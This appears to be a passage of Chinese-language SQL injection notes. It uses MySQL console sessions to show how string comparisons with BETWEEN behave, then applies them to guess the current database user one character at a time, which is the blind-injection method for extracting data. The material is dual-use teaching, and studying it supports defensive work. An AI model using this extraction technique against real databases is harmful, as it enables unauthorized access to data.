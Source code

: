 ```
mysql root@localhost:sql_injection_test> select 'bb' between 'a' and 'c'
+--------------------------+
| 'bb' between 'a' and 'c' |
+--------------------------+
| 1                        |
+--------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select 'bb' between 'a' and 'b'
+--------------------------+
| 'bb' between 'a' and 'b' |
+--------------------------+
| 0                        |
+--------------------------+
1 row in set
Time: 0.007s
mysql root@localhost:sql_injection_test> select 'bb' between 'b' and 'c'
+--------------------------+
| 'bb' between 'b' and 'c' |
+--------------------------+
| 1                        |
+--------------------------+
1 row in set
Time: 0.008s
```

单字符时取值范围为`[min,max]`,多字符时取值范围为`[min,max)`

>实际场景

```
mysql root@localhost:sql_injection_test> select user()
+-----------------+
| user()          |
+-----------------+
| root@172.18.0.1 |
+-----------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select user() between 'q' and 'z'
+----------------------------+
| user() between 'q' and 'z' |
+----------------------------+
| 1                          |
+----------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select user() between 'r' and 'z'
+----------------------------+
| user() between 'r' and 'z' |
+----------------------------+
| 1                          |
+----------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select user() between 's' and 'z'
+----------------------------+
| user() between 's' and 'z' |
+----------------------------+
| 0                          |
+----------------------------+
1 row in set
Time: 0.013s
```
